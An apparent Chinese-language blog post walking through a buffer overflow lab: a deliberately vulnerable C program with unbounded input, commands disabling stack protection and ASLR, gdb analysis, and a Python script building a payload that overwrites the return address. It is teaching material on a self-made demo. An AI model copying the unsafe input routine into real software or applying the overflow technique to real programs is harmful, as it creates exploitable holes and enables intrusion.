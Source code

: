 ```yaml
---
layout: post
title: 缓冲区溢出攻击实验
subtitle: 缓冲区溢出攻击实验
date: 2020-08-05
author: nightmare-man
tags: demo
---
```

# 缓冲区溢出攻击实验

### 0x00 示例代码

```c
#include <stdio.h>
void mgets(char* buf){
	char* temp=buf;
	char c;
	while((c=getchar())!='\n'&&c!=EOF){
		*temp++=c;
	}
	*temp++='\0';
	return;
}
int main(){
	char buf[8];
	mgets(buf);
	printf("This string can't be displayed normally!");
	return 0;
}
```



### 0x01 代码分析

​	main函数里分配了8个字节的buf缓冲区，然后调用mgets过程，往缓冲区里写入用户的输入。但是mgets里没有对写入缓冲区的大小进行限制，导致写入越界。

​	由于buf是局部变量，分配在栈里，而栈是向下扩展的，所以buf在	上一个栈帧里记录调用main函数后返回的地址	的下方，然后随着不断往缓冲区buf里写数据，会向上覆盖该返回地址。导致main函数返回时跳转到攻击者写入的地址，改变了程序的行为。

### 0x02 具体操作

​	gcc默认开启**栈破坏检测机制**，并且**默认设置了栈不可执行**，来防止程序的缓冲区溢出漏洞，因此为了实验我们应该关闭。

​	使用下面命令编译上面的代码

```c
gcc -fno-stack-protector -z execstack 1.c -o 1.out
```

​	生成可执行文件1.out

​	我们要写入的新的跳转地址，因此最好栈和代码的位置不变动，这样我们才能知道要跳转的地址，因此要**关闭操作系统的ASLR(adress  space layout randominaztion)**。

​	使用下面命令关闭ASLR

```c
sudo echo 0 > /proc/sys/kernel/randomize_va_space
```

​	使用 objdump -d 1.out 命令 观察main函数的栈帧分配:

![image-20200805171144958](/assets/img/image-20200805171144958.png)

​	可以看到，先push 保存了%rbp，然后给buf实际分配了16字节。那么从buf[0]到上一个栈帧最后写入的返回地址之间有24字节空间，我们需要先输入16字节，填满给buf分配的空间，再写入8字节，作为%rbp的值，需要注意的是，这个值不能任意写，因为最后main里的leave指令会把%rbp传送到%rsp,因此这个值应该能被访问，最好和新的返回地址一致，然后再写入8字节作为新的返回地址，最后输入EOF或者 换行符0x0a作为输入结束。

​	在这里，我让新地址为printf的语句。为了知道printf语句运行时的地址，我们使用gdb调试一下。

​	用gdb 1.out对其进行调试，然后输入break main，对main函数下断点，再用run指令，此时在main函数断下，再用disas，反汇编当前函数的代码。

![image-20200805172304047](/assets/img/image-20200805172304047.png)

​	可以发现，和objdump -d 的地址一致都是0x00000000004005df。那么我们需要输入的数据如下：

![image-20200805172459672](/assets/img/image-20200805172459672.png)

​	一共33字节16+8+8+1，前面16字节随意，中间8字节是%rbp，最后8字节是新地址我们填写0x00000000004005df,注意字节序，最后一个是换行符，表示输入结束。

​	我们当然不可能直接执行1.out再从终端输入，因为有些数值对应的ascii码无法从键盘打出，因此我们用python生成二进制文件，最后用重定向输入。

​	python代码如下：

```python
import struct
list_d=[0x31,0x32,0x33,0x34,0x35,0x36,0x37,0x38,0x39,0x30,0x31,0x32,0x33,0x34,0x35,0x36,0xdf,0x05,0x40,0x00,0x00,0x00,0x00,0x00,0xdf,0x05,0x40,0x00,0x00,0x00,0x00,0x00,0x0a]
with open('data.bin','wb') as fp:
        for x in list_d:
                a=struct.pack('B',x)
                fp.write(a)
print('done')
```

​	重定向输入命令执行1.out

```c
./1.out < data.bin
```

​	提示segmentation fault

![image-20200805173414161](/assets/img/image-20200805173414161.png)

​	但是用gdb调试执行，发现已经成功，在mian函数执行retq时，到了0x4005df，之所以segmentation fault是因为还会继续运行到main函数里的leave和retq，但是这个时候栈里的数据可能不对了。

​	但是我们的实验目的已经达到了，完成了更改程序的行为（虽然结果不直观）。